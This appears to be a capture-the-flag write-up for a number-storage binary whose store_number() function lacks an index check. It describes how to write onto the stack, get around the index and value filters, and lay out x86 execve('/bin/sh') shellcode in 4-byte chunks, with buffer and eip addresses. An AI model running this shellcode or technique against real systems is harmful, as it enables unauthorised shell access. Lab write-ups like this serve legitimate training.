 The program is a number storage service. We can store numbers, read the stored numbers, or quit. Looking at the [source code](../source.c) in more detail, we notice that there is no check of the index where we save our numbers in the store_number() function. Therefore, we can write almost anywhere we want on the stack. We'll be able to exploit that, but we'll have to deal with some protections: 

* First of all, concerning the registration of numbers in the dataset:
- numbers are stored at index * 4
- index % 3 must not be equal to 0
- number >> 24 must not be equal to 183 

* The program has been compiled with the flag "-fstack-protector" which protects the return address of the program functions.

* At the beginning of the program, `av` and `env` are cleared and therefore cannot be used to store shellcode in memory. 




Let's start by finding the buffer address in the store_number() function:

esp: 0xffffd520
buf dans main: 0x24(%esp) <=> 0xffffd544

"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"



index N     : "\x31\xc9\xf7\xe1"
index N+1   : "\xb0\x0b" + jump
index N+3   : "\x51\x68\x2f\x2f"
index N+4   : "\x73\x68" + jump
index N+6   : "\x68\x2f\x62\x69"
index N+7   : "\x6e\x89" + jump
index N+9   : "\xe3\xcd\x80"



buf:                    0xffffd544

eip in read_number():   0x8048930




We can now reach the next level with the command `su level08` and fill in the flag found as a password.